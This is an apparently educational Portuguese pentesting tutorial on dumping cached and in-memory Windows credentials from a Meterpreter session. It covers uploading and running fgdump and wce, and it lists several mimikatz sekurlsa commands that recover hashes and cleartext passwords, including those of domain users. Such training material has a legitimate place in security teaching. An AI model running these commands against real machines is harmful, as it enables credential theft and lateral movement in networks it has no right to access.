 <h1 align="center">Obtendo senhas em cache/memoria</h1>
<hr>

Alem das tecnicas normais de obter o hash e tentar quebrar o hash , nos temos outras tecnicas bem interessantes no windows que eh , obter senhas diretamente no cache ou na memoria do windows, vamos ver como funciona:

Com o comando hashdumo do meterpreter ele nos traz os usuarios  , preste atencao  que utilizando essa tecnica que a gente vai aprender agora, vamos encontrar outro usuario que nao estava na maquina anteriormente.

<span style='color:var(--mk-color-teal)'>No Kali Linux </span>temos alguns diretorios interessantes que eh o <span style='color:var(--mk-color-teal)'>windows-resources</span> e o <span style='color:var(--mk-color-teal)'>windows-binaries</span> , dentro do binaries temos varios executaveis para windows , mas temos um que eh o <span style='color:var(--mk-color-red)'>fgdump</span> , vamos utiliza-lo 

```sh
┌───(mrrobot@kalilinux)-[/usr/share/windows-binaries/fgdump]
└─$ ls
PwDump.exe  cachedump.exe    fgdump.exe  pstgdump.exe  servpw64.exe
README      cachedump64.exe  fgexec.exe  servpw.exe
```

Temos varios programas, agora na maquina que estamos atacando utilizando o meterpreter vamos fazer um upload do fgdump para dentro de <span style='color:var(--mk-color-orange)'>C:\</span>

```sh
meterpreter> upload /usr/share/windows-binaries/fgdump/fgdump.exe c:
```

Esse programa permite a gente conseguir acessar cache , informacoes que estao no cache do sistema, alem de pegar os hashes. Vamos ver a seguir

No diretorio que fizemos upload executamos:

```sh
C:\fgdump.exe
```

Ao executar ele vai gerar dois arquivos pra gente : `127.0.0.1.cachedump` e `127.0.0.1.pwdump` ,lendo esses arquivos  poedmos ver todos os hashes dos usuarios que ele encontrou na maquina.

O interessante e que no arquivo cache dump ele trouxe o outro usuario nao listado no meterpreter mostrando tmb o dominio

Mas ai voce pergunta o porque dele nao trazer esse usuario no hashdump.

Isso porque este usuario esta em dominio.

se fizermos o `ipconfig` e vermos o Servidores DNS , notamos que estamos conectado a um servidor e que essa maquina seria uma estacao de trabalho , logo quando fizemos o hashdump , puxamos os hashes do server e nao da estacao de trabalho. Uma vez que conseguimos acessar o cache da maquina , vemos que obtemos uma informacao que nao tinhamos anteriormente

tambem temos outra tecnica interessante com o software <span style='color:var(--mk-color-red)'>wce</span> , que alem de conseguir informacoes de cache ele nos traz a senha em texto claro !

```sh
meterpreter> upload /usr/share/windows-resources/wce/wce-universal.exe c:
meterpreter>shell
C:\>wce-universavel.exe -w
```

Poxa , mas o metasploit com tudo que a gente tem , nao vai ter uma ferramenta que faca isso ja?

Sim , nos temos: o hashdump que ja nos traz os hashes dos usuarios e temos os modulos como o <span style='color:var(--mk-color-red)'>mimikatz</span> 

```sh
meterpreter> load mimikatz
meterpreter> wdigest
```

Ou:

```sh
meterpreter> mimikatz_command -f sekurlsa::wdigest -a full
ou
meterpreter> mimikatz_command -f sekurlsa::searchPasswords
ou
meterpreter> mimikatz_command -f sekurlsa::logonPasswords
```